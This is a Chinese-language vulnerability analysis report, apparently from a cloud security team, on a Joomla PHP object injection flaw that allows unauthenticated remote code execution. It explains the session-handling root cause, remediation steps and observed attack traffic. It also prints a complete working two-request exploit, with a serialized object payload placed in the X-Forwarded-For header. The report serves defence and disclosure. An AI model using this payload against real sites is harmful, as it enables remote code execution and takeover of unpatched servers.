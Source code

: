# Joomla 对象注入漏洞分析报告

**Author:阿里云安全攻防对抗团队**

近日，Joomla再曝高危0day漏洞，可进行远程命令执行，阿里云云盾昨日已上线相应的拦截规则抵御该漏洞。同时,对云托管客户已经做了电话通知和自动漏洞修复。统计数据显示，截至16日凌晨，已有数百个恶意IP尝试使用该漏洞对阿里云网站发起攻击，云盾已成功拦截上万次攻击请求，其中攻击请求数排名第一的黑客在一小时内尝试入侵超过1000个 Joomla 网站。

根据此次漏洞情况，Joomla 官方已紧急放出了3.4.6版本。joomla用户除了尽快升级至最新版本，也可采用阿里云安全团队给出的更为完善的修复方案，对网站进行加固，详情可参考：0x03漏洞修复。

0x00 漏洞介绍
=====

昨日，Joomla 安全团队紧急发布了 Joomla 3.4.6 版本，修复了一个高危 0day 漏洞。该漏洞影响了 1.5 到 3.4.5 的所有版本，漏洞利用无须登录，直接在前台即可执行任意PHP代码。

0x01 漏洞利用
=====

将恶意代码放在 User-Agent 或 X-Forwarded-For 中发送给网站，将网站返回的cookie值带入第二个请求中，即可触发漏洞。或是在第一个请求中指定cookie值，在第二次中带上同样cookie值也能触发漏洞。

请求一：

```
GET / HTTP/1.1
Host: 127.0.0.1
X-Forwarded-For: }__test|O:21:"JDatabaseDriverMysqli":3:{s:2:"fc";O:17:"JSimplepieFactory":0:{}s:21:"\0\0\0disconnectHandlers";a:1:{i:0;a:2:{i:0;O:9:"SimplePie":5:{s:8:"sanitize";O:20:"JDatabaseDriverMysql":0:{}s:8:"feed_url";s:37:"phpinfo();JFactory::getConfig();exit;";s:19:"cache_name_function";s:6:"assert";s:5:"cache";b:1;s:11:"cache_class";O:20:"JDatabaseDriverMysql":0:{}}i:1;s:4:"init";}}s:13:"\0\0\0connection";b:1;}ð
Cookie: 3342514dde143a04dad958b2eb5a748a=pd4nnqlps2suk9r70189jkpdn2

```

请求二：

```
GET / HTTP/1.1
Host: 127.0.0.1
Cookie: 3342514dde143a04dad958b2eb5a748a=pd4nnqlps2suk9r70189jkpdn2

```

如果执行成功，请求二的返回内容中会显示phpinfo()的执行结果。

0x02 漏洞分析
=====

在`libraries/joomla/session/session.php`文件中，joomla将`HTTP_USER_AGENT`和`HTTP_X_FORWARDED_FOR`直接存入到了session中

```
……
// Record proxy forwarded for in the session in case we need it later
if (isset($_SERVER['HTTP_X_FORWARDED_FOR']))
{
    $this->set('session.client.forwarded',$_SERVER['HTTP_X_FORWARDED_FOR']);
……
// Check for clients browser
if (in_array('fix_browser', $this->_security) && isset($_SERVER['HTTP_USER_AGENT']))
{
        $browser = $this->get('session.client.browser');
        if ($browser === null)
        {
            $this->set('session.client.browser', $_SERVER['HTTP_USER_AGENT']);
        }
}

```

继续跟进joomla对于session的处理方式，在`/libraries/joomla/session/storage.php`内`JSessionStorage`类中，利用`session_set_save_handler`重新实现了 session 存储的read()和write()方法，从php手册中得定义看到，read()、write()方法传进和传出的参数会分别自动进行序列化和反序列化，这一部分的序列化操作由PHP内核完成：

![enter image description here](http://drops.javaweb.org/uploads/images/23f4e76260e66499a2f898f29e838447a4075ca7.jpg)

继续跟入到read()和write()函数，代码位于`libraries/joomla/session/storage`目录中，从所有session存储引擎的实现代码中可以看到，joomla都没有对 session 的value进行安全处理就进行了写入操作。 默认情况下，joomla使用了数据库引擎对 session 进行存储，这也是本漏洞可以成功利用的条件之一，构造exp时候，利用 Mysql 的字符截断特性，最终写入到数据库中一个被破坏的不合法的反序列化对象，当这个对象被执行read()读取时候，因为截断字符的关系， PHP内核（PHP <= 5.6.13）在解析`session.client.forwarded`后面字符串时，由于长度Check不一致，导致`php_var_unserialize`提前退出，返回false，PHP在上一次`php_var_unserialize`失败的时候，会从之前的指针位置继续开始下一轮key-value尝试，在新一轮key-value尝试中，PHP内核将攻击者注入的"|"当成了分隔符，进行key-value解析，进行反序列化导致对象方法被执行。

漏洞的本质原因有两个，一个是php内核的session解析器bug导致的，另一个是mysql数据库的字符截断特性。如果使用的session存储引擎不存在 Mysql 这样的字符截断特性，此漏洞就无法复现。我们测试该漏洞时，将joomla配置文件`configuration.php`中的`$session_handler`配置为none，即使用文件系统存储session，发现漏洞无法成功利用。

0x03漏洞修复
=====

Joomla 官方已经在昨天紧急放出了3.4.6版本。比对代码后发现，官方此次的升级补丁仅仅在`/libraries/joomla/session/session.php`中删掉了将HTTP_USER_AGENT写入SESSION变量中的代码，增加了对 HTTP_X_FORWARDED_FOR 获取到IP的合法性验证，将此次公开的exp中的利用点修复掉了。但官方没有对JSessionStorage 类中处理session的不安全方式进行修复，因此这个修复方式存在被绕过的可能。只要攻击者寻找到新的可控SESSION值的位置，就可用同样的构造方法触发漏洞。

下面给出更为完善的修复方案：

修改 Joomla 根目录`configuration.php`，把`$session_handler`的值改为none，会将session存储引擎设为文件系统。 把 PHP 版本升到到 5.6.13 或更高的版本。

登录Joomla后台把程序升级到 3.4.6 或更高的版本。

0x04 威胁现状
=====

统计数据显示，截至16日凌晨，已有数百个恶意IP尝试使用该漏洞对阿里云网站发起攻击，云盾已成功拦截上万次攻击请求，其中攻击请求数排名第一的黑客在一小时内尝试入侵超过1000个 Joomla 网站。

对攻击者使用的攻击payload分析，大部分攻击者在第一个请求中都会插入类似`eval(base64_decode($_post[a]))`这样的代码，在第二个请求中尝试向网站根目录写入一句话木马。如果攻击成功，网站将会被攻击者完全控制。也有部分攻击者使用的是网上公开的漏洞检测payload，如`phpinfo();`和`md5(233333);`，这些代码一般不会对网站造成威胁。

相关链接：

```
https://www.joomla.org/announcements/release-news/5641-joomla-3-4-6-released.html
https://blog.sucuri.net/2015/12/remote-command-execution-vulnerability-in-joomla.html 
https://github.com/80vul/phpcodz/blob/master/research/pch-031.md

```~~~~